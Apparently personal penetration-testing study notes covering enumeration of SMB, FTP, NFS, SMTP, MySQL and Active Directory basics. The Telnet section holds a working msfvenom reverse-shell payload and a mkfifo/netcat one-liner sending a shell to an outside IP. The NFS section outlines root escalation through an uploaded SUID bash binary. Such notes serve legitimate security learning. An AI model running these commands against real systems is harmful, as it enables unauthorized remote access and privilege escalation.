






# Network services

## SMB
- [Enum4Linux](https://github.com/CiscoCXSecurity/enum4linux), tools to extract from smb server on both windows and linux
- Command Usage: `enum4linux [options] ip`
	`-U` get userlist
	`-M` get machine list
	`-N ` get namelist dump (different from -U and -M)
	`-S` get sharelist
	`-P` get password policy information
	`-G` get group and member list
	`-a` all of the above (full basic enumeration)
	
- Access the `smbclient //[IP]/[SHARE]`
	`-U [name]` : to specify the user
	`-p [port]` : to specify the port
	
	
## Telnet
## smfvenon
- Can be used to connect via telnet
- **mkfifo**: generate payload: `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`
	- Listen to the port with `nc -lvp 4444`
	- Send the generated payload to the shell `mkfifo /tmp/peqgmh; nc 10.10.15.142 4444 0</tmp/peqgmh | /bin/sh >/tmp/peqgmh 2>&1; rm /tmp/peqgmh'`
	- The response will be send to the 4444 port

## FTP
- connect command `ftp [IP]`
- has port 20 and 21
- one for command communitation, the other for data transportation
- FTP can be passive and active, 
	- active: data server reached out to the client port
	- passive: server listen to their local port
- [For some server, FTP's in.ftpd enumeration exploit](https://www.exploit-db.com/exploits/20745)
- [Man-in-the-middle attack using ARP poisoning](https://www.jscape.com/blog/countering-packet-sniffers-using-encrypted-ftp)

## NFS
- NFS can be used to transfer files between different operating systems, each of the computer can act as NFS file server to any other computer.
[How the NFS Service Works](https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html)
- In simple term, NFS is mounting a remote directory on the local system like a hard disk. 
- Mounting service will use this to connect to the relevant mount daemon using RPC. (Use RPC to communicate between devices)
- Steps:
	- First checks the directory permission for whatever requested
	- RPC call is placed to NFSD when someone wants to access a file using NFSD. Which the daemon has the following information (these are used to control to verify file permission)
		- The file handle
		- The name of the file to be accessed
		- The user's, user ID
		- The user's group ID
- Required package for NFS service: NFS-Common
	- Program includes:
		- lockd
		- statd 
		- **showmount**
		- nfsstat
		- gssd
		- idmapd
		- **mount.nfs**
	- [More information about this package](https://packages.ubuntu.com/jammy/nfs-common)
- Port displayed as `nfs_acl`
- Example mounting NFS command
	- `sudo mount -t nfs IP:share /tmp/mount/ -nolock`
	-  `sudo`: Run as root
	- `mount`: Execute the mount command
	- `-t nfs`Type of device to mount, then specifying that it's NFS
	- `IP:share`: The IP Address of the NFS server, and the name of the share we wish to mount
	- `-nolock` Specifies not to use NLM locking
- More Reading
	- [What is Network File System (NFS) File Share?](https://www.datto.com/blog/what-is-nfs-file-share)
	- [Linux NFS Overview, FAQ and HOWTO Documents](https://nfs.sourceforge.net/)
	- [NFS on Arch](https://wiki.archlinux.org/title/NFS)
### NFS configuration
- File with `SUID` bit set means that the **file can be run** with the permission of the file(s) owner/group
	- If this bit is on, (s instad of x in the permission) then this file will be run as root permission by all user
- `root_squash` is an NFS configuration that prevents outside user to be able to access the root priviledge. Automatically assign user to "nfsnobody". If this is not set properly, then it alow the user the creation of SUID bit files.
- Possible scenario if `root_squash` is off
	- Ubuntu Server 18.04 bash executable: `https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash`
	- upload files to the NFS share and change the permission to S bit
	- run this bash shell as root, completion of escalate privileges

## SMTP
- The mail service comprising of two services
	- SMTP: A protocol that deliver the mail to the destination
		- It verifies who is sending emails through the SMTP server.
    	- It sends the outgoing mail
    	- If the outgoing mail can't be delivered it sends the message back to the sender
	- POP/IMAP: A protocol that control the retriving processes for the receiver
		- POP: Receiver uses POP protocol to "retrieve" email from POP server
		- IMAP: Receiver uses IMAP to "synchronize" email with the IMAP server

- Simplify version on how it work:
	1. User initiate SMTP handshake with SMTP port (25)
	2. User send email to SMTP server
	3. SMTP server checks if the domain name of the recipient and the sender is the same (check if sending to itself)
	4. The sender's SMTP server connect to the recipient SMTP server. Relay the emails if recipient's SMTP server is online, otherwise, the Email gets put into an SMTP queue (periodicly resend)
	5. The recipient's SMTP server verify the validity of domain and user name. Then forward to the recipient POP/IMAP
	6. The E-Mail will then show up in the recipient's inbox.
- [How Email Works](https://computer.howstuffworks.com/e-mail-messaging/email3.htm)
- [SMTP protocol explaned](https://www.afternerd.com/blog/smtp/)
### Enumeration
- **Enumerating Server details**: Metasploit: `smtp_version` scan the version of the smtp
- **Enumerating Users**: 
	- `VRFY`: confirming the name
	- `EXPN`: actual address of user’s aliases and lists of e-mail
- Enumeration is doable via telnet, but metasploit's module `smtp_enum` is more efficient witha a wordlist
- There are other tools such as "smtp-user-enum" which works better on Solaris
- Enumeration is performed by inspecting the responses to VRFY, EXPN, and RCPT TO commands
- The technique could work aganst other vulnerable SMTP daemons

## MySQL
[SQL Query Execution](https://dev.mysql.com/doc/dev/mysql-server/latest/PAGE_SQL_EXECUTION.html)
[PHP MySQL Database](https://www.w3schools.com/php/php_mysql_intro.asp)
- Im mySQL, **schema** is synonymous with a database. While in other database, schema only represent a part of the database
	- e.g. `CREATE SCHEMA` instead of `CREATE DATABASE`
- Hash can be used in an different way in mySQL, each hash has a unique ID that serves as a pointer to the original data
- Related metasploit module
	- `mysql_sql`, `mysql_schemadump`, `mysql_hashdump`

# ADDS
- Active Domain Directory Services
- Machine naming Scheme: `DC01` will have account name `DC01$`

## Group Policy Management
- Every GPO (group policy object) is linked to a OU (Organizational Unit) and applied to linked OU and Every sub-OU under it

- Every GPO can apply to a group of user or computer through security filtering
- GPO has configurations that can apply to computers only and configurations that can apply to users only. (user and computer each as a section per GPO)
- Any policy changes are made via Group Policity Management Editor by right click edit on the GPO 
*Note that the configuration made for user will be ignored by the computer, the reverse is also true.

## GPO distribution
- GPOs are distributed to the DC network via a network share called `SYSVOL` which is stored in the DC.
- Share point on DC by defauly `C:\Windows\SYSVOL\sysvol\`
- Usually require 2h for DC to sync GPO, but can manually force via command `gpupdate /force`

## Authentication
Protocol used for network authentication in Windows domain
**NetNTLM**: Legacy authentication
**Kerberos**: Used by the recent version
### Kerberos Authentication
The whole thing is build upon no need to send the authentication information everything when accessing network services
Step One: Granting TGT (allow the user to request services on the network)

Step Two: Use TGT to acquire services ticket

Step Three:

### NetNTLM Authentication

